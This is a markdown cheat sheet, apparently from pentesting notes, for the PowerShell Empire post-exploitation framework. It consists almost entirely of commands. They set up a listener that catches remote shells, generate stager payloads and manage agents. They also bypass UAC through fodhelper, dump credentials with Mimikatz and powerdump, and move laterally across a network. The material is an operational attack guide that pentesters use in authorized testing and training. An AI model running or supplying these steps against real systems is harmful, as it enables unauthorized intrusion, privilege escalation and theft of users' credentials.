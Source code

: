 # Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
* [https://zayotic.com/posts/empire-cheatsheet/](https://zayotic.com/posts/empire-cheatsheet/)

## Cheat Sheet

```bash
# install it
sudo apt install powershell-empire

# to run it, you need both the server and client
sudo powershell-empire server
sudo powershell-empire client

# list and use listeners
# you need a listener to catch a shell
# do not forget to set Host, and other custom settings
listeners # this moves the menu to the listeners sub-category
uselistener "listenername" # sets the menu into an even further sub-category
info
set Host 192.168.1.5
execute # runs listener
back # goes to listeners category so you can run a stager (aka payload)

# use a stager once a listener is set
# list and use the stager
usestager # lists stager
usestager path_to/stager
info # shows info about stager
set Listener "listenername" # set as the name of listener that is setup
execute # generates the payload aka agent that stager leaves behind

# to view what shells you have open
agents
interact "agentname"

# use modules for more leverage
# best modules
# Powersploit
usemodule situational_awareness/network/powerview/get_user
# Powerup
usemodule powershell/privesc/powerup/allchecks
# Powerdump
usemodule credentials/powerdump
# fodhelper, if local admin launch high-integrity shell and run Mimikatz
usemodule privesc/bypassuac_fodhelper
# Mimikatz, then run sekurlsa::logonpasswords  
usemodule credentials/mimikatz/logonpasswords 
usemodule lateral_movement/ # lateral movement methods
# other modules
usemodule # shows a module list
usemodule "path_to/module"
# show module info and execute a module
info
execute

# when in doubt
help # useful command
```

## fodhelper

* if you have local admin access, this module may be able to launch a high-integrity PowerShell Empire agent through bypassing the UAC (which you need to run Mimikatz, etc...)

```
# load the Empire module
usemodule privesc/bypassuac_fodhelper

# display info
info

# setup a listener
set Listener http

# run the module
execute

# if this works, then you now have a high-integrity Powershell Empire agent which
# is needed in order to run Mimikatz and other high-integrity modules
usemodule credentials/mimikatz/logonpasswords
execute
sekurlsa::logonpasswords

# view the creds that were just dumped
creds

# add your own creds to creds
creds add example.com exampleusername ex4mpl3p4ssw0rd
```
